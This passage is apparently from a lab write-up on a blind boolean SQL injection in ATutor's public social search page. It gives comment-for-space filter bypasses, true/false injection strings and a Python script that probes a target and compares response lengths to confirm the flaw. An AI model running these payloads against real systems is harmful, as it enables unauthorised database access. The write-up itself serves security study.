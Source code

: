 ## A Small Hurdle
Extracting the data from the database with our blind SQLi, isn't as straight forward.
Our payloads cannot contain any spaces, since they are used as delimiters in the query construction process.

However, since this is an ATutor-related constraint and not something inherent to MySQL, we can replace spaces with anything that constitutes a valid space substitute in MySQL syntax.
For instance, instead of a normal query we can use the following query:

```sql
select/**/1;
```


## Baseline Exploit
Now that we are fully aware of the restrictions in place, our first goal is to create a very simple dummy TRUE/FALSE injection subquery.
The best way to exploit a blind boolean based sqli, is to compare HTML responses.
We can craft simple or even complex boolean based queries to the webserver, and then compare html responses to exfiltrate required data.

2 dummy injections are as follows:
```mysql
#TRUE STATEMENT:
AAAA')/**/or/**/(select/**/1)=1%23;

#FALSE STATMENT:
AAAA')/**/or/**/(select/**/1)=0%23
```

We can also use the atutor mysql database to confirm that these queries will work:

![](../../Screenshots/t1-ss24.png)

We see that the query returns a 1 as a boolean true result, if we change the 1 to a 0, we get a 0 as a false.

We can use our dummy injections and use a python script to check if the target is vulnerable or not:

```python
import requests
import sys

def searchFriends_sqli(ip, inj_str, query_type):
    target = "http://%s/ATutor/mods/_standard/social/index_public.php?q=%s" % (ip, inj_str)
    r = requests.get(target)
    content_length = int(r.headers['Content-Length'])
    if (query_type==True) and (content_length > 20):
        return True
    elif (query_type==False) and (content_length == 20):
        return True
    else:
        return False

def main():
    if len(sys.argv) != 2:
        print "(+) usage: %s <target>"  % sys.argv[0]
        print '(+) eg: %s 192.168.121.103'  % sys.argv[0]
        sys.exit(-1)

    ip = sys.argv[1]

    false_injection_string = "test')/**/or/**/(select/**/1)=0%23"
    true_injection_string  = "test')/**/or/**/(select/**/1)=1%23"

    if searchFriends_sqli(ip, true_injection_string, True):
        if searchFriends_sqli(ip, false_injection_string, False):
            print "(+) the target is vulnerable!"

if __name__ == "__main__":
    main()
```

The following sends 2 sqli payloads, if the content length(html response) is more than 20, the result of the boolean query is true.
However, if it's less than 20, it's a false.

Running the script, we find that the web app is vulnerable:

![](../../t1-ss25.png)
